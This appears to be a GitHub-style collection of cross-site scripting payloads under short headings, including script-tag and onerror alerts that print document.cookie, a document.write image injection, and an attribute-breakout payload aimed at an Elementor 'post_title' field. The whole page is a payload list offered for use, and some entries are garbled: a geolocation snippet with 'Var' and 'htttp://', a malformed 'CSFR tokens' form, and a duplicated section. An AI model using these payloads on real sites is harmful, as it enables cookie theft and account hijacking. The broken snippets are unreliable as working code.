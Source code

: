 ## DOM
```
<script>alert(document.domain)</script>
```
## Self Cross-Site Scripting 
```mysql
<img src="" onerror="alert(document.cookie)">
```
## Non ExistantImage
```
<div><image src=validateNonExistantImage.png onloadstart=alert(1337)> hey girl hey </div>
```
## Get cookie
```
nu11secur1ty<script>alert(document.cookie)</script>
```
## Alert check
```
<script>alert("Hello");</script>
<script>alert("nu11secur1ty_is_here");</script>
```

## Hidden Image
```
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
## Post image
```
<form action="#" method="post"><label for="imgURL">image URL:</label><input type="url" id="imgURL"/><label for="pageURL">page URL:</label><input type="url" id="pageURL"/><button id="imgAdd">add image</button></form>
```
## Error check
```
</span><img src=1 onerror=alert(1) /><span>
```
## CSFR tokens
```
<form action="https:/yourdomain.com/acquire_token.php"></textarea>
```
## Geolocation
```
<script>Var today = new Date().toLocaleString() + 'week' + 'day one two three four five six'.charAt(new Date().getDay());document.getElementById('remote').src = "htttp:// + today + "----" + encodeURIComponent(position.coords.latitude) + "," + encodeURIComponent(position.coords.longitude</script>
```
## "post_title" parameter
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
## Document_cookie
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
